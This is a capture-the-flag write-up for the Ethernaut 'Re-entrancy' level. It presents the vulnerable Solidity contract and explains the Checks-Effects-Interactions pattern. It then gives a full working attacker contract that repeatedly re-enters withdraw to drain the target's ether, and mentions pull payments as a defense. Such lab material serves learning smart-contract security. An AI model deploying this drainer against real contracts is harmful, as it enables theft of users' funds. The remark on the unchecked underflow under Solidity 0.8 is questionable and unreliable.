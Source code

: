 # Ethernaut: 10. Re-entrancy

**Objective of CTF:**

- Steal all the funds from the contract.

**Target contract:**

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/utils/math/SafeMath.sol";

contract Reentrance {
  using SafeMath for uint256;
  mapping(address => uint) public balances;

  function donate(address _to) public payable {
    balances[_to] = balances[_to].add(msg.value);
  }

  function balanceOf(address _who) public view returns (uint balance) {
    return balances[_who];
  }

  function withdraw(uint _amount) public {
    if (balances[msg.sender] >= _amount) {
      (bool result, ) = msg.sender.call{value: _amount}("");
      if (result) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }

  receive() external payable {}
}
```

There is a pattern called [Checks - Effects - Interactions](https://fravoll.github.io/solidity-patterns/checks_effects_interactions.html) in Solidity.
Basically:

1. you **check** whether you can do something, such as checking balance
2. you apply the **effects** of doing it on your contract, such as updating balance
3. you do the actual **interactions** on-chain with other, such as transferring money

In this case, the function is `withdraw` but the **interaction** comes before the **effect**. This means that when we receive money from within the `withdraw`, things are briefly in our control until the program goes back to the `withdraw` function to do the effect. When we have the control, we can call `withdraw` once more and the same thing will happen again and again.

When we create the instance in this game, we can see that:

- `await getBalance(contract.address)` is 0.001 ether.
- `await contract.balanceOf(player)` is 0.

We will donate some money to create our initial balance at the target, which will allow the `balances[msg.sender] >= _amount` to be true. Now, we can repeadetly withdraw that amount by re-entering the withdraw function. Since balance update effect happens after the transfer interaction, we will go on and on until the balance is depleted. As a defense, you could use a pull-payment approach: the user to be paid must come and withdraw their money themselves, rather than us paying to them.

Note that `balance[msg.sender]` will underflow as we will subtract more `_amount` than what is donated to there, but SafeMath was not used for this line so we are ok.

```solidity
// SPDX-License-Identifier: GPL-3.0
pragma solidity ^0.8.0;

// Interface of the target contract
interface IReentrance {
  function donate(address _to) external payable;
  function withdraw(uint _amount) external;
}

contract Attacker {
  address public owner;
  IReentrance targetContract;
  uint targetValue = 0.001 ether;

  constructor(address payable _targetAddr) payable {
    targetContract = IReentrance(_targetAddr);
    owner = msg.sender;
  }

  // withdraw money from this contract
  function withdraw() public {
    require(msg.sender == owner, "Only the owner can withdraw.");
    (bool sent, ) = msg.sender.call{value: address(this).balance}("");
    require(sent, "Failed to withdraw.");
  }

  // begin attack by depositing and withdrawing
  function attack() public payable {
    require(msg.value >= targetValue);
    targetContract.donate{value:msg.value}(address(this));
    targetContract.withdraw(msg.value);
    targetValue = msg.value;
  }

  receive() external payable {
    uint targetBalance = address(targetContract).balance;
    if (targetBalance >= targetValue) {
      // withdraw at most your balance at a time
      targetContract.withdraw(targetValue);
    } else if (targetBalance > 0) {
      // withdraw the remaining balance in the contract
      targetContract.withdraw(targetBalance);
    }
  }
}
```

This is how "The DAO" hack was executed, which resulted in the creation of Ethereum Classic; pretty mind-blowing to think just the misplacement of two lines caused a million-dollar hack!
